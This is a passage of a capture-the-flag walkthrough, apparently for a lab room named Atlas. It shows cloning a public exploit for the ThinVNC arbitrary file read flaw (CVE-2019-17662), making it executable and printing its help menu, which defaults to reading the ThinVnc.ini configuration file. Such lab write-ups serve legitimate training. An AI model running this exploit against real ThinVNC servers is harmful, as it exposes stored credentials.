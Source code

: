 <br>
<h2>Task 4 . <code>Attack</code> . Foothold</h2>
<br>

<p><em>Answer the question below</em></p>

<br>
<p>4.1. Clone the Git repository at https://github.com/MuirlandOracle/CVE-2019-17662  to your attacking machine. See if you can figure out how to do this in your terminal by yourself, otherwise, the command is given in the hint.<br>
<code>No answer needed</code></p>

```bash
:~/Atlas# git clone https://github.com/MuirlandOracle/CVE-2019-17662
Cloning into 'CVE-2019-17662'...
remote: Enumerating objects: 10, done.
remote: Counting objects: 100% (10/10), done.
remote: Compressing objects: 100% (8/8), done.
remote: Total 10 (delta 2), reused 10 (delta 2), pack-reused 0 (from 0)
Unpacking objects: 100% (10/10), 2.83 KiB | 1.42 MiB/s, done.
```

<br>
<p>4.2. Switch into the newly created exploit directory and set the file to be executable (chmod +x CVE-2019-17662.py) -- this may already be done for you, but better safe than sorry! Try executing the exploit -- you should see a help menu<br>
<code>No answer needed</code></p>

```bash
:~/Atlas/CVE-2019-17662# ls
CVE-2019-17662.py  README.md
```

```bash
:~/Atlas/CVE-2019-17662# chmod +x CVE-2019-17662.py
```

```bash
:~/Atlas/CVE-2019-17662# ./CVE-2019-17662.py
usage: CVE-2019-17662.py [-h] [-f FILE] [-s] [--accessible] host port
CVE-2019-17662.py: error: the following arguments are required: host, port
```

<br>
<p>4.3. Read through the exploit help menu. This script requires two arguments. Ascertain what these arguments are, then use the script to exploit the vulnerable service on the target..<br>
<code>No answer needed</code></p>

```bash
:~/Atlas/CVE-2019-17662# ./CVE-2019-17662.py -h
usage: CVE-2019-17662.py [-h] [-f FILE] [-s] [--accessible] host port

CVE-2019-17662 ThinVNC Arbitrary File Read

positional arguments:
  host                  The target IP or domain
  port                  The target port (1-65535)

optional arguments:
  -h, --help            show this help message and exit
  -f FILE, --file FILE  The file to read (default: ../ThinVnc.ini
  -s, --ssl             Does the server use SSL?
  --accessible          Remove banners and make exploit friendly for screen readers
```
